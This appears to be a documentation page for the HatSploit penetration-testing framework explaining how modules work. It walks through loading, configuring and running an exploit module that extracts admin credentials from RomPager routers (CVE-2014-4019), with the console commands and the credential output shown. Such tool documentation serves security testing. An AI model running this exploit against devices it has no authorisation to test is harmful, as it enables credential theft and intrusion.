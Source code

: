 ```yaml
---
layout: default
title: HatSploit Modules
parent: Getting started
nav_order: 5
---
```


## About Modules

Since HatSploit Framework has a modular system, all the additional functional including exploits, tools or post-exploitation capabilities are implemented within modules.

Modules can be different. They can scan the target for opened ports, exploit security flaws or spoof the traffic.

## Using the module

To use specific module, just type `use` and module name.

```hsf
[hsf3]> use exploit/linux/rompager/multi_password_disclosure
[hsf3: RomPager Multi Password Disclosure]> 
```

**NOTE:** You can use the module by its number from `search` or `show` lists.

```hsf
[hsf3: RomPager Multi Password Disclosure]> info

    Name: RomPager Multi Password Disclosure
  Module: exploit/linux/rompager/multi_password_disclosure
Platform: linux
    Rank: high

Authors:
  Ivan Nikolskiy (enty8080) - module developer

Description:
  Numerious devices using RomPager are vulnerable to
  a password disclosure through extracting it from
  the downloaded rom-0 file.

References:
  URL: https://github.com/EntySec/RomBuster
  URL: https://nvd.nist.gov/vuln/detail/cve-2014-4019
  URL: https://www.exploit-db.com/exploits/33803
  CVE: 2014-4019
  EDB: 33803
```

Here we also used `info` command to obtain the general module information.

The module we just selected is an exploit for `RomPager 4.07` server. It takes few options and then tries to obtain credentials.

You can list module options using `options` command and list advanced options using `advanced` command.

```hsf
[hsf7: exploit: RomPager Multi Password Disclosure]> options
 
Module Options (exploit/linux/rompager/multi_password_disclosure):
 
    Option      Value    Required    Description
    ------      -----    --------    -----------
    host                 yes         HTTP host.
    port        80       yes         HTTP port.
    ssl         no       no          Use SSL.
    timeout     10       no          Connection timeout.
    username    admin    yes         Default username.
```

Options can be set using `set` command and can be set to `None` using `unset`.

```hsf
[hsf7: exploit: RomPager Multi Password Disclosure]> set host 192.168.1.56
[i] host => 192.168.1.56
```

Finally, to execute the module, you should use command `run`.

```hsf
[hsf7: exploit: RomPager Multi Password Disclosure]> run
 
 
Credentials:
 
    Username    Password
    --------    --------
    admin       admin
 
[+] Exploit module completed!
```

**NOTE:** If you want to run module as a background job, use `run -j`.

## Developing the module

If you want to contribute and develop your own module, you might find this guide useful - [Writing Modules](/docs/development/writing-modules)